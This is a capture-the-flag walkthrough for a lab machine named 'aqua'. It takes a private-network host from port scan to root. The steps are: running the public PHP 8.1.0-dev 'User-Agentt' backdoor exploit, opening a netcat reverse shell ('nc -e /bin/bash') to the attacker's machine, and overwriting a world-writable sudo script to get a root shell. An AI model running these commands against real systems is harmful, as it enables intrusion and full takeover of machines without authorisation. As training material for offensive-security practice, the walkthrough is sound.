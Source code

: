 # 🖥 Walkthrough | aqua

## 1. Reconnaissance

To identify possible attack vectors, the first step is to scan the host for open ports. This can be done by using `nmap`. The parameter `-p-` instructs nmap to scan all 65535 ports:

```bash
# nmap -A -p- 192.168.60.3
[..]
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.4p1 Debian 5 (protocol 2.0)
| ssh-hostkey: 
|   3072 b7:a1:63:7e:11:df:24:9f:13:9e:85:b2:ac:f4:ab:47 (RSA)
|   256 7e:c2:cc:27:30:5a:5a:c9:20:96:c0:aa:3b:c8:64:1f (ECDSA)
|_  256 ab:c7:78:52:73:f4:80:7a:75:18:92:20:19:67:0e:9c (ED25519)
80/tcp open  http    Apache httpd (PHP 8.1.0-dev)
|_http-title: AQUA Design Studios
|_http-server-header: Apache
[..]
```

The output suggests that there are two open ports: an SSH and an HTTP server. The Apache HTTP server on port 80 hosts a static website, which can be viewed in any web browser:

![website](img/01.png)

## 2. Exploitation / Remote code execution

The next step is to exploit vulnerabilities in the exposed services. One thing that comes to mind is the PHP version `8.1.0-dev`, which was identified by the `nmap` scan.

A quick lookup with `searchsploit` shows an interesting exploit:

```bash
# searchsploit -t 8.1.0-dev      
---------------------------------------------------------------------------------
 Exploit Title                                            |  Path
---------------------------------------------------------------------------------
PHP 8.1.0-dev - 'User-Agentt' Remote Code Execution       | php/webapps/49933.py
---------------------------------------------------------------------------------
```

This remote code execution vulnerability has been introduced by malicious actors in 2021: [PHP 8.1.0-dev - "User-Agentt Remote Code Execution"](https://www.exploit-db.com/exploits/49933)

We can examine the exploit script via `searchsploit -x php/webapps/49933.py`. Let's run it and see if it works:

```bash
# python3 /usr/share/exploitdb/exploits/php/webapps/49933.py
Enter the full host url:
http://192.168.60.3/

Interactive shell is opened on http://192.168.60.3/ 
Can't acces tty; job crontol turned off.
$ id 
uid=1(daemon) gid=1(daemon) groups=1(daemon)
```

Cool! Looks like we can execute commands on the machine. Our next step is to establish a proper reverse shell. You can use this [Reverse Shell Cheatsheet](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md).

Establishing a reverse shell requires two steps:

1. Start a listener on your local Kali Linux machine on some port:  `nc -lnvp 4242`

2. Connect to the listener from `aqua` by using the Python exploit script from above and then executing:
   ```bash
   $ nc -e /bin/bash 192.168.60.2 4242
   ```
   > Note that you need to provide the IP address of your Kali machine, which is `192.168.60.2`.

As soon as the command in step 2 is executed, the listener from step 1 will show an incoming connection from `aqua`. You can now type shell commands that will get executed on the remote machine.

For a more convenient experience, it is recommended to upgrade the connection to an [interactive TTY](https://blog.ropnop.com/upgrading-simple-shells-to-fully-interactive-ttys/). To do this, simply execute `python3 -c 'import pty; pty.spawn("/bin/bash")'`:

```bash
$ nc -lnvp 4242
listening on [any] 4242 ..connect to [192.168.60.2] from (UNKNOWN) [192.168.60.3] 57206
python3 -c 'import pty; pty.spawn("/bin/bash")'
daemon@aqua:/$ 
```

Now, there is a pretty shell prompt and we can clearly see that we are logged in as the `daemon` user.

We can explore the file system with a couple of `ls`, `cd` and `cat` commands to obtain the first flag:

```bash
daemon@aqua:/$ ls -al /home/aqua                                                    
total 24                                                             
drwxr-xr-x 2 aqua aqua 4096 Jun 25 11:35 .                           
drwxr-xr-x 4 root root 4096 Jun 25 11:35 ..                          
-rw-r--r-- 1 aqua aqua  220 Aug  4  2021 .bash_logout                
-rw-r--r-- 1 aqua aqua 3526 Aug  4  2021 .bashrc                     
-rw-r--r-- 1 aqua aqua  807 Aug  4  2021 .profile                    
-rw-r--r-- 1 aqua aqua   69 Jun 25 11:35 token                      
daemon@aqua:/$ cat /home/aqua/token                                               
Hello there! This one is for you: AQUA{r3m0te_b4ckd00rz_ar3_aw3s0me} 
```

## 3. Privilege escalation

The next step is to escalate privileges to root to completely take control of the machine.

One of the first attempts should be to try if we can execute commands as root via `sudo`:

```bash
daemon@aqua:/$ sudo -l                                                                                          
Matching Defaults entries for daemon on aqua:                                                        
    env_reset, mail_badpass,                                                                         
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin                    

User daemon may run the following commands on aqua:
    (root) NOPASSWD: /opt/restart-apache
```

It appears that the daemon user can run the script `/opt/restart-apache` as root without a password. That sounds nice, let's have a look at the file:

```bash
daemon@aqua:/$ cat /opt/restart-apache
#!/bin/bash

# Sometimes Apache just stops working...
# This script simply restarts the web server.

echo "Restarting Apache. This might take a moment..."
systemctl restart apache2.service
echo "Done!"
```

Apparently, the script simply restarts the Apache web server. Investigating the file permissions with `ls` shows that ANYONE can modify this file:

```bash
daemon@aqua:/$ ls -al /opt/restart-apache
-rwxrwxrwx 1 root root 202 Jun 25 11:39 /opt/restart-apache
```

Well, that's... weird? And insecure!

So let's override the file with another script that just runs the `bash` command:

```bash
daemon@aqua:/$ printf '#!/bin/bash\nbash' > /opt/restart-apache
```

Running this script via sudo should drop us into an interactive root shell:

```bash
daemon@aqua:/$ sudo /opt/restart-apache
root@aqua:/# id
uid=0(root) gid=0(root) groups=0(root)
root@aqua:/# cat /root/token
Nice job! Looks like you deserve this token: AQUA{w0rld_wr1t4ble_f1l3z_c4n_be_h3lpful}
```

Looks like we found our second token! Challenge completed!
